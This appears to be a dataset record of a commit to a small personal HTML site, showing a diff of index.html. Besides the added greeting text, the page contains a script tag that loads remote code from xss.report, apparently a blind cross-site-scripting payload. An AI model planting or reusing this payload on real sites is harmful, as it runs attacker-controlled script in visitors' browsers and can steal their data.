

Before and after one commit to Spideynati/mysites, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,3 +1,4 @@
 <body>
+  hellooooooooooo
 <script src=//xss.report/s/hackerspidey></script>
 </body>
```
